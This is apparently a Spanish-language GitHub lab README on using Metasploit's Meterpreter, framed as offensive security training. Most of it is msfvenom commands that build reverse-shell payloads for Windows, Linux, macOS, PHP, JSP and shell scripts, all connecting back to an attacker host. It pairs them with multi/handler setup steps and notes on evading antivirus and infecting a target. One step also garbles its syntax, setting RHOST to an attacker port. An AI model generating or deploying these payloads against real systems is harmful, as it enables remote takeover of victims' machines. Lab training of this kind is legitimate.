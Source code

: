 # <img alt="Hacking_Labs, más allá de la Ciberseguridad" src="llaves.png" width="4%">	Meterpreter 

> [!IMPORTANT]
> Laboratorio Meterpreter en <b>framework Metasploit</b> (Kali Linux 2023.4). Meterpreter (Meterpreter es el diminutivo para meta-interprete) es un payload que permite ejecutar tareas de forma remota en una máquina que se ejecuta en un nivel muy bajo de la máquina, por lo que es bastante difícil de detectar y, por tanto, muy útil para evadir sistemas antivirus, IDS o IPS. Gracias al payload Meterpreter, es posible realizar multitud de acciones sobre el sistema vulnerado, si bien no tiene porqué comportarse de la misma forma en todos los sistemas operativos. Este Payload que se ejecuta después del proceso de explotación o abuso de una vulnerabilidad en un sistema operativo, siempre en memoria, lo que evitará ser detectado.

> ### Trabajando con Meterpreter: MSFVenom y la generación de un Payload :computer:
> Con MSFVenom se simplifica la generación de payloads y los intentos de codificación de éstos, entre cuyas opciones podemos destacar: 
> - Payload, parámetro que especifica el payload que se utilizará.
> - Encoder, otro parámetro que especifica el algoritmo que se utilizará para realizar la codificación.
> - Format, donde se especifica el formato de salida del fichero (normalmente EXE, PY...)
> - Bad-chars, que indica un listado de bytes que no se deben generar en el proceso de obtención del payload (como por ejemplo, si se quieren evitar los bytes nulos '\x00' se añaden en la lista de este parámetro).
> - Iterations, que indica el número de iteraciones que se ejecutará el algoritmo del encoder (codificador)
> - Template, que permite elegir la plantilla de ejecutable que se utilizará.
> - Keep, que especifica que el payload se ejecutará en un thread (hilo) y no en el main del ejecutable, lo que produce un payload más sigiloso.


- <b>Paso 1</b>: Ya dentro de Metasploit Framework, se utilizará el exploit multi handler, payload que se utiliza para conectar con el objetivo. Dependiendo del tipo de payload, el handler queda a la espera (está en modo escucha) de una conexión por parte del payload cargado en el objetivo (reverse payload), llegando a iniciar una conexión contra el host y puertos objetivo en ciertos casos (bind payload). En la consola, se codifica:
<b>

```
use exploit/multi/handler
```
</b>

- <b>Paso 2</b>: Ahora, se procede a crear el payload como tal. La cuestión principal es para qué sistema operativo deberá estar preparado, tanto el tipo como la versión, arquitectura... ¡¡Todo con su máximo detalle!! Para ello, ejecutaremos <b>MSFVenom</b>, framework para Linux que combina la biblioteca de payloads y la de codificadores (encoders), de forma que permite generar un payload ofuscado (oculto a los sistemas antivirus y de protección) directamente. Para ello podemos consultar qué comandos tenemos disponibles:
<b>

```
msfvenom -h
```
</b>

Si queremos disponer de un listado con los posibles opciones y/o payloads, podemos utilizar el siguientes códigos:
<b>

```
# Listado de payloads
msfvenom -l payloads
```

```
# Listado de opciones para payloads
msfvenom -p [payload_elegido] --list-options
```
</b>

- <b>Paso 3</b>: Se crea el payload con los parámetros necesarios para que sea efectivo y no detectado en el host objetivo:
<b>

```
msfvenom -p [payload_elegido] LHOST=[ip_atacante] LPORT=[puerto_escucha_atacante] -o [fichero_resultante]
```
</b>

Como es evidente, se pueden dar ocasiones en las que se deba crear un payload "a medida" para el sistema operativo que está en el host objetivo, siempre según los análisis que hemos realizado mediante NMAP.
Así, podemos crear diversos tipos de payloads:
<b>

```
# Para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -f exe > payload.exe
```
```
# En Java
msfvenom -p java/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -f jar > payload.jar
```
```
# En python
msfvenom -p python/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.py
```
```
# Para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.exe
```
```
# Para Linux
msfvenom -p linux/meterpreter/reverse_tcp LHOST=[ip_atacante] LPORT=[puerto_atacante] -o troyano.exe
```
```
# Buffer Overflow en Linux - Shellcode
msfvenom -p linux/x86/shell_reverse_tcp lhost=[ip_atacante] lport=[puerto_atacante] --format c --arch x86 --platform linux 
--bad-chars "\x00\x09\x0a\x20" --out shellcode
```
</b>

<b>Ejemplos de generación de un Meterpreter con MSFVenom:</b>
<b>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform windows -a x64 -n 200 -e generic/none -i 4 
-f exe -o reverse_shell.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && 
echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=192.168.1.222 lport=1234 -f elf -o origen_shell
```
</b>

- <b>Paso 4</b>: Volviendo a Metasploit Framework, configuramos el payload con el que se va a realizar la escucha, es decir, con el que realmente se ha infectado al host objetivo.
<b>

```
# Para un sistema de 64 bits
set payload windows/x64/meterpreter/reverse_tcp
```
```
# Para un sistema de 32 bits
set payload windows/meterpreter/reverse_tcp
```
</b>

- <b>Paso 5</b>: Posteriomente, se configuran la ip y puerto del atacante (escucha)
<b>

```
set LHOST=[ip_atacante]
```
```
set RHOST=[puerto_atacante]
```
</b>